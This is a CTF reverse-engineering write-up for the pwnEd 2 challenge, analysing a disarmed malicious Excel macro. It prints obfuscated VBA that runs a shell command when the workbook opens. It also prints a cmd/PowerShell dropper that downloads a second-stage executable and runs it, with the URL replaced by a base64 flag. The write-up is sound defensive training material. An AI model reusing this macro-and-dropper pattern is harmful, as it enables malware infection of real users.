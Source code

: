 ```yaml
---
title: "pwnEd 2 - сука блять Writeup"
date: 2021-03-04T23:02:59Z
draft: false
tags: ["pwned2", "reversing"]
author: "Pol T."
toc: false
---
```

## TL;DR
Analyze a malicious Excel file and extract its payload
## Description
I found some Russian malware online and I have no idea what it's doing D:

Author: xenocidewiki

The challenge provides us with a Finances2020covid.xlsm file
## Initial analysis
First of all, when you download this file, Microsoft Defender warns you that it is malware. I guess that the author took a malware sample and removed the actual malicious part to create this challenge which is why Defender blocks it. In a real world scenario, you wouldn't simply open the file or even keep it on your computer. The .xlsm hints indeed to a macro-infused excel file, which is commonly used as an initial infection vector. You can easily extract the macro with oledump and analyze it safely if you want to be sure that the macro is not dangerous. In this case however, I'll simply open it with excel and see what it contains.
![Excel 1](excel1.png)
When we first open it, we see this big image that asks us to "enable editing".
Again, you should never do this in a real world sceanrio because this allows the macro to run but in this case, it's safe to enable editing. After that, we get another warning that tells us that macros are deactivated. Again,activate them so we can solve this challenge. When we do this, a message box appears containing the words **Thank you!** Now let's analyze the macro code in detail.
## Macro analysis
To see the macro code in Excel, click on the Developer Tab (you may need to activate this if you haven't used it before) and pick Visual Basic. You can now see a big chunk of code written in VBA (I included a shortened version here so you get the gist of the obfuscation). 
```vba
Private Function decrypt(ciphertext As Variant, key As Variant)
    Dim plaintext As String
    plaintext = ""
    
    For i = LBound(ciphertext) To UBound(ciphertext)
        plaintext = plaintext & Chr(key(i) Xor ciphertext(i))
    Next
    decrypt = plaintext
End Function
Private Function SKDKLNWEio2nf()
Dim wsh As Object

Set wsh = VBA.CreateObject(decrypt(Array(202, 75, (92 Xor (241 - 10)), 215, 91, 144, (135 + 30), (318 - 110), (279 - 92), (92 - 24), 105, 26, ((7 - 2) Xor 74)), Array((124 Xor ((247 - 82) + (103 - 43))), (24 - 0), 216, 165, ((0 + (24 - 12)) Xor 62), (271 - 47), (170 Xor 123), (76 Xor 178), (356 - 124), ((11 - 4) + 37), (2 + 10), 118, (48 - 13))))

Dim wortn As Boolean: wortn = True

Dim wndstyle As Integer: wndstyle = (1 Xor (0 + (0 - 0)))

Dim knlkdneKLADSFLKNfMKWEMLFAS123123njk As String

knlkdneKLADSFLKNfMKWEMLFAS123123njk1 = decrypt(Array(((51 + 171) Xor (8 + 28)), (228 - 7), (131 Xor 43), (19 Xor 11), (132 Xor (31 + (132 - 47))), 168, 23, (151 Xor (100 - 31)), (123 - 3), ((167 - 73) Xor (418 - 202)), (188 - 18)), Array(153, (64 Xor ((152 - 9) + 97)), (((19 - 5) + (41 - 18)) Xor (6 + 227)), 56, (204 + (23 - 4)), (143 + (212 - 101)), (69 - 24), ((26 + (4 - 2)) Xor (68 + 61)), (49 Xor 7), ((199 - 58) Xor 36), (322 - 97)))
knlkdneKLADSFLKNfMKWEMLFAS123123njk2 = ""
wsh.Run knlkdneKLADSFLKNfMKWEMLFAS123123njk1 & knlkdneKLADSFLKNfMKWEMLFAS123123njk2 & knlkdneKLADSFLKNfMKWEMLFAS123123njk3 & knlkdneKLADSFLKNfMKWEMLFAS123123njk32 &
End Function
Private Sub Workbook_Open()

Dim uname As String
Dim strCompName As String
uname = Application.UserName
hostname = Environ$(decrypt(Array((((17 - 3) + 2) Xor 72), ((19 + 141) Xor (7 + (118 - 46))), (114 + (85 - 39)), ((156 - 61) Xor 44), (90 Xor ((2 - 1) + 0)), 176, (12 Xor (73 - 27)), 150, (100 Xor 189), 106, ((49 + 0) Xor (152 - 70)), (8 Xor (49 - 15))), Array(59, ((121 - 60) Xor 189), ((31 + (43 - 5)) Xor 136), 14, (135 - 56))))

If uname = decrypt(Array(161, 143, (157 - 30), (12 Xor (65 + 0)), ((416 - 192) + (16 - 6)), (349 - 157), 194, 138), Array(215, 224, (44 - 17), (6 + 32), 139, (212 - 39), 163, (((75 - 24) + (19 - 6)) Xor 164))) Then
   ...
    End If
Else
    MsgBox decrypt(Array(36, (2 + 12), (21 + 104), (40 + (13 - 0)), 77, ((31 - 12) Xor (1 + 11)), 239, (31 Xor 63), (15 - 4), 0), Array((103 Xor 23), (((53 - 0) + 7) Xor 90), (6 + (24 - 2)), 91, ((48 - 23) + 13), (70 - 7), 150, ((12 - 3) Xor (89 - 19)), 126, 33))
End If

End Sub
```
We can clearly see that this code has been heavily obfuscated. Deobfuscating this is however not that hard. All you need is a few well-placed calls to MsgBox to see the values that are returned by all the decrypt functions. So for example, if you wanted to know what the parameter to the Environ$ call is, simply add
```vba
MsgBox decrypt(Array((((17 - 3) + 2) Xor 72), ((19 + 141) Xor (7 + (118 - 46))), (114 + (85 - 39)), ((156 - 61) Xor 44), (90 Xor ((2 - 1) + 0)), 176, (12 Xor (73 - 27)), 150, (100 Xor 189), 106, ((49 + 0) Xor (152 - 70)), (8 Xor (49 - 15))), Array(59, ((121 - 60) Xor 189), ((31 + (43 - 5)) Xor 136), (3 - 0), (8 + 38), (329 - 133), (19 + 52), ((188 - 28) + 68), (((54 - 25) + 28) Xor 142), ((3 - 1) + (11 - 2)), 14, (135 - 56)))
```
to the script and the value will be shown to you when you run it. If we apply this technique for each obfuscated value in WorkBook_Open() function (the function that gets called when you open the excel file). We get the following cleaned up version:
```vba
Private Sub Workbook_Open()

Dim uname As String
Dim strCompName As String
uname = Application.UserName
hostname = Environ$("computername")
If uname = "vodkaman" Then
    If hostname = "SIGINTCORP" Then
        Call Success
    Else
        MsgBox "Thank you!"
    End If
Else
    MsgBox "Thank you!"
End If

End Sub
```
Now this is much easier to analyze. The code gets our username and computername and then compares them to **vodkaman** and **SIGINTCORP** respectively. It then calls Success (I renamed SKDKLNWEio2nf to Success). So let's see what happens if we call Success:
![Excel 2](excel2.png)
It opens up a shell and runs some script that finishes after a few seconds and prints *woooops*
Now let's analyze the other function in the macro. There are two important parts in this code:
```vba
Set wsh = VBA.CreateObject(WScript.Shell)
```
This sets up the shell
```vba
wsh.Run ...
```
This sets up the command to run in the shell. If we print the parameters to this call, we get the powershell payload.
## Powershell analysis
```powershell
cmd /V:ON/Kset riMt=}
 } ;'spooooow' tuptuO-etirW { hctac };kaerb ;vnE$ metI-ekovnI;)vnE$ ,a$(eliFdaolnwoD.tneilCbeW${ yrt{ )etiSbeW$ ni a$( hcaerof;'exe.' + emaneliF$ + '\\' + cilbup:vne$ = vnE$;'f2lk3m2ja' = emaneliF$;'9RXMfJHMm9FbsRjZfNDbw92Mw91dwg2XyNDZuBzdfFzXuBTbtBzYuV3X0BjbfNXMfNjc0cHb002XBJkV7RWZudHc' = etisbeW$;tneilCbeW.teN tcejbo-wen = tneilCbeW$&&
 for /L %W in (337;-1;0)do set AW7L=!AW7L!!riMt:~%W,1!&&if %W==0 powershell !AW7L:~6! 
```
Again, this payload is heavily obfuscated and the main part is reversed. After a little clean up and reversing the main code, the payload looks like this:
```powershell
$WebClient = new-object Net.WebClient;
$Website = 'cHduZWR7VkJBX200bHc0cjNfMXNfbjB0X3VuYzBtbTBuXzFfdzBuZDNyX2gwd19wM29wbDNfZjRsbF9mMHJfMXR9';
$Filename = 'aj2m3kl2f';
$Env = $env:public + '\\' + $Filename + '.exe';
foreach ($a in $WebSite) 
	{try 
		{$WebClient.DownloadFile($a, $Env);
		Invoke-Item $Env; 
		break;} 
	catch 
		{ Write-Output 'wooooops'; }
```
This payload basically tries to download the second-stage payload.
It would normally have an array of domains defined in the $Website variable that it can contact. Then it tries to download the 'aj2m3kl2f' binary from those domains, saves it, and then tries to invoke it. In this case, however, because the malware has been disarmed, the domain is actually just a base64 encoded string. If decode that, we get our flag: pwned{VBA_m4lw4r3_1s_n0t_unc0mm0n_1_w0nd3r_h0w_p3opl3_f4ll_f0r_1t}

## Conclusion
I really liked this challenge as it introduces macros as a common technique that get often used for initial infection. While it wasn't too complicated, the different techniques needed to solve this challenge were however a nice change from the usual ELF Reversing that you can find in CTFs. Shoutout to xenocidewiki for creating a bunch of great challenges and introducing more variety to the category.